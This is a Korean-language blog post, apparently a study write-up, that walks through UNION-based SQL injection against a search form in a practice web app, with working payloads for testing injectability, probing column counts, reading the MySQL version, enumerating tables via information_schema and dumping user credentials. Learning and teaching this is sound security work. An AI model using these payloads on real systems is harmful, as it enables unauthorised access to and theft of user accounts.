 ```yaml
---
layout: post
title: "Webhacking(SQL_Injection)"
date: 2021-01-01 09:44:00 +0900
background: "/img/posts/03.jpg"
categories: ["development"]
---
```


SQL_Injection
=============

SQL 인젝션은 사용자가 입력한 값을 서버에서 검증하지 않고 데이터베이스
쿼리 일부분으로인식하여 데이터베이스의 정보가 노출되거나 인증이 우회되는 
취약점이다. <br>
SQL 인젝션은 사용자가 데이터를 입력할 수 있는 곳 어디에서든 발생할 수 있다.

### GET/Search

* SQL 인젝션이 가능한지 확인
  > SELECT * FROM movies WHERE title LIKE ' ' ' <br>
==> ' 를 사용하는 이유 <br> :: 데이터베이스에서 작음따옴표로 문자데이터를
                              구분하기 떄문이다.

![SQL 인젝션 가능여부 확인](https://user-images.githubusercontent.com/76092057/103431891-ce5d1700-4c1a-11eb-9b66-b619954a55a3.PNG){: width:"100%" height:"100%"}

==> 오류 메세지에는 데이터베이스 서버 정보가 포함되는데, 데이터베이스
서버의 종류에 따라 SQL 구문이 다르므로 가장 먼저 서버 정보를 확인<br>
@@ 현재 : MySQL

* 쿼리를 입력하여 어떤 주석 문자를 사용하는지 확인 <br> ==> 쿼리 결과를 항상
참으로 만들고 기존 코드의 뒷부분을 주석 처리한다.

1. ' or 1=1--
2. ' or 1=1#

![SQL 쿼리 성공](https://user-images.githubusercontent.com/76092057/103432134-25182000-4c1e-11eb-8cab-69f34d819943.PNG){: width:"100%" height:"100%"}
@@ 결과 :: 첫번째 쿼리에서는 오류, 두번째 쿼리는 모든 영화 자료가 출력된다.


* 더 자세한 정보를 알아내기 위해 UNION SELECT 구문을 사용<br>
==> UNION :: SELECT 문이 둘 이상일 때 이를 결합하여 두 질의의 결과를
하나로 반환한다. (UNION Based SQL Injection)

> UNION SELECT ALL 1# <br>
==> UNION 구문을 사용하기 위해서는 SELECT 문의 칼럼수가 일치해야함

> ' UNION SELECT ALL 1,2,3,4,5,6,7# <br>
==> 칼럼을 계속 추가하여 확인

![SQL 인젝션 UNION 문](https://user-images.githubusercontent.com/76092057/103432258-b340d600-4c1f-11eb-9645-821ad117feab.PNG){: width:"100%" height:"100%"}

> 0' UNION SELECT ALL 1,@@version,3,4,5,6,7# <br>
==> MySQL 버전을 확인하기 위하여 시스템 변수나 시스템 함수를 활용하여 쿼리 입력,
페이지에 노출되는 칼럼은 2,3,4,5번에 위치함으로 이중 하나에 시스템 변수를 삽입

![SQL 인젝션 MySQL 버전 확인](https://user-images.githubusercontent.com/76092057/103432327-7aedc780-4c20-11eb-921d-2365db1547a9.PNG){: width:"100%" height:"100%"}

@@ 버전 : 5.0.96

* information_schema를 사용하여 테이블 명을 확인
  > 0' UNION SELECT ALL 1,table_name,3,4,5,6,7 from information_schema.tables# 
![SQL 인젝션 모든 테이블명](https://user-images.githubusercontent.com/76092057/103432398-81c90a00-4c21-11eb-842a-f34de5eb7b17.PNG){: width:"100%" height:"100%"}

* 출력한 정보를 토대로 users 테이블에 사용자 계정 정보가 들어있음을 추측, 
  where 절로 users 테이블 정보만 출력하게 조건을 지정한다.
  > 0' UNION SELECT ALL 1,column_name,3,4,5,6,7 from information_schema.columns where table_name='users'#

![SQL 인젝션 WHERE 문](https://user-images.githubusercontent.com/76092057/103432468-a4a7ee00-4c22-11eb-8254-66ca335473f2.PNG){: width:"100%" height:"100%"}

* 페이지에 노출된 칼럼 수보다 확인하려는 칼럼 수가 많을 때는 concat 함수를 사용
  > 0' UNION SELECT ALL 1,concat (id,login), password,email,secret,6,7 from users#

![SQl 인젝션 공격 성공(GET)](https://user-images.githubusercontent.com/76092057/103432520-7840a180-4c23-11eb-8886-8c04c9fc829e.PNG){: width:"100%" height:"100%"}

### 대응방안
![SQL 인젝션 대응방안(GET)](https://user-images.githubusercontent.com/76092057/103432541-c48be180-4c23-11eb-94c6-e6550a3c8d61.PNG){: width:"100%" height:"100%"}







